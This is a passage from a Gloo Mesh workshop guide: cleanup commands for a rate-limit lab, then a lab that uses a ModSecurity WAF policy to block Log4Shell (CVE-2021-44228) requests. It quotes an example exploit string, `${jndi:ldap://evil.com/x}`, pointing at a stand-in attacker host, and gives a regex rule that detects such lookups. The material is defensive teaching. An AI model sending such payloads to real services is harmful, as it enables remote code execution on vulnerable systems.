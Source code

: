 And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
```





## Lab 16 - Use the Web Application Firewall filter <a name="lab-16---use-the-web-application-firewall-filter-"></a>
[<img src="https://img.youtube.com/vi/9q2TxtBDqrA/maxresdefault.jpg" alt="VIDEO LINK" width="560" height="315"/>](https://youtu.be/9q2TxtBDqrA "Video Link")


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

